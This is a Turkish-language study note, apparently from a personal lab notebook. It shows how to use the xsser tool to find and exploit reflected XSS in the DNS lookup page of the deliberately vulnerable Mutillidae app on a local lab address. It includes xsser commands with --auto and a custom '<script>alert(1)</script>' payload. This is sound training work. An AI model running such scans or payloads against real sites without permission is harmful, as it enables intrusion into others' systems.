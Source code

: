 ![[Pasted image 20240506161337.png]]
![[Pasted image 20240506161349.png]]
### Bu bir post request. Burada üst tarafta POST yazısı ile başlayan text bizim url'imize eklenecek.
## targethost olarak başlayan bölüm de bizim #xsser de -p ile verdiğimiz post switch'i çalıştıracak

##### target_host=HELLO+WORLD&dns-lookup-php-submit-button=Lookup+DNS
### Burada Hello World olarak yazdığımız yeri XSS olarak değiştirip #xsser ' e veriyoruz.
![[Pasted image 20240506161755.png]]
##### xsser --url "http://10.0.2.7/mutillidae/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS"

![[Pasted image 20240506162101.png]]

### Şuan hedefin vulnerable olduğunu öğrendik.

##### xsser --url "http://10.0.2.7/mutillidae/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" <span style="background:#d4b106">--auto</span>

## Burada --auto komutunu eklediğimizde zaafiyetli olarak tespit ettiğimiz yerde #xsser kendi içindeki payload'ları tek tek deniyor.
![[Pasted image 20240506162622.png]]
### 1291 tane payload denedi ve 1285 tanesi başarılı.

---

## #xsser custom payload


```
xsser --url "http://10.0.2.7/mutillidae/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS" --Fp "<script>alert(1)</script>" 
```




![[Pasted image 20240506163136.png]]
![[Pasted image 20240506163817.png]]
##### target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS

